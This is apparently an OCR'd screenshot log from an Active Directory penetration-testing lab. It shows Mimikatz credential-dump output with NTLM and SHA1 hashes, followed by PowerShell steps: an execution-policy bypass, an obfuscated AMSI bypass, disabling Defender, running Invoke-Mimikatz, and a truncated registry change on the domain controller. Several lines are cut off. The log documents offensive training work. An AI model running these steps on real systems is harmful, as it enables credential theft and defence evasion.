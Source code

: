Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : DCORP-ADMINSRV$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 11/26/2020 8:41:23 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : DCORP-ADMINSRV$
         * Domain   : dcorp
         * NTLM     : 5e77978a734e3a7f3895fb0fdbda3b96
         * SHA1     : e9f3e1343aff21e696b7b7ecc72286aa451c067f
        tspkg :
        wdigest :
         * Username : DCORP-ADMINSRV$
         * Domain   : dcorp
         * Password : (null)
        kerberos :
         * Username : dcorp-adminsrv$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 21719 (00000000:000054d7)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 11/26/2020 8:41:22 AM
SID               :
        msv :
         [00000003] Primary
         * Username : DCORP-ADMINSRV$
         * Domain   : dcorp
         * NTLM     : 5e77978a734e3a7f3895fb0fdbda3b96
         * SHA1     : e9f3e1343aff21e696b7b7ecc72286aa451c067f
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 66422 (00000000:00010376)
Session           : Service from 0
User Name         : websvc
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 11/26/2020 8:41:26 AM
SID               : S-1-5-21-1874506631-3219952063-538504511-1113
        msv :
         [00000003] Primary
         * Username : websvc
         * Domain   : dcorp
         * NTLM     : cc098f204c5887eaa8253e7c2749156f
         * SHA1     : 36f2455c767ac9945fdc7cd276479a6a011e154b
         * DPAPI    : 65e0a67c32db3788515ff56e9348e99c
        tspkg :
        wdigest :
         * Username : websvc
         * Domain   : dcorp
         * Password : (null)
        kerberos :

[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\